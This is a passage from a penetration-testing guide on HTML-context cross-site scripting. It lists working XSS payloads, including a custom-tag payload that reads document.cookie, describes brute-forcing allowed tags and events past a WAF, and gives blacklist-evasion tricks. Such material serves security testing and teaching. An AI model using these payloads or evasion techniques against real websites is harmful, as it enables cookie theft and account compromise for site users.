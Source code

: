 When your input is reflected **inside the HTML page** or you can escape and inject HTML code in this context the **first** thing you need to do if check if you can abuse `<` to create new tags: Just try to **reflect** that **char** and check if it's being **HTML encoded** or **deleted** of if it is **reflected without changes**. **Only in the last case you will be able to exploit this case**.  
For this cases also **keep in mind** [**Client Side Template Injection**](../client-side-template-injection-csti.md)**.**  
_**Note: A HTML comment can be closed using `-->` or `--!>`**_

In this case and if no black/whitelisting is used, you could use payloads like:

```javascript
<script>alert(1)</script>
<img src=x onerror=alert(1) />
<svg onload=alert('XSS')>
```

But, if tags/attributes black/whitelisting is being used, you will need to **brute-force which tags** you can create.  
Once you have **located which tags are allowed**, you would need to **brute-force attributes/events** inside the found valid tags to see how you can attack the context.

### Tags/Events brute-force

Go to [**https://portswigger.net/web-security/cross-site-scripting/cheat-sheet**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) and click on _**Copy tags to clipboard**_. Then, send all of them using Burp intruder and check if any tags wasn't discovered as malicious by the WAF. Once you have discovered which tags you can use, you can **brute force all the events** using the valid tags \(in the same web page click on _**Copy events to clipboard**_ and follow the same procedure as before\).

### Custom tags

If you didn't find any valid HTML tag, you could try to **create a custom tag** and and execute JS code with the `onfocus` attribute. In the XSS request, you need to end the URL with `#` to make the page **focus on that object** and **execute** the code:

```text
/?search=<xss+id%3dx+onfocus%3dalert(document.cookie)+tabindex%3d1>#x
```

### Blacklist Bypasses

If some kind of blacklist is being used you could try to bypass it with some silly tricks:

```javascript
//Random capitalization
<script> --> <ScrIpT>
<img --> <ImG
//Double tag, in case just the first match is removed
<script><script>
//Double tag inside, in case just checked once
<SCRscriptIPT>alert(1)</SCRscriptIPT>
//You can substitude the space to separate attributes for:
/
/*%00/
/%00*/
%2F
%0D
%0C
%0A
%09
//Unexpected parent tags
<svg><x><script>alert('1'&#41</x>
//Unexpected weird attributes
<script x>
<script a="1234">
<script ~~~>
```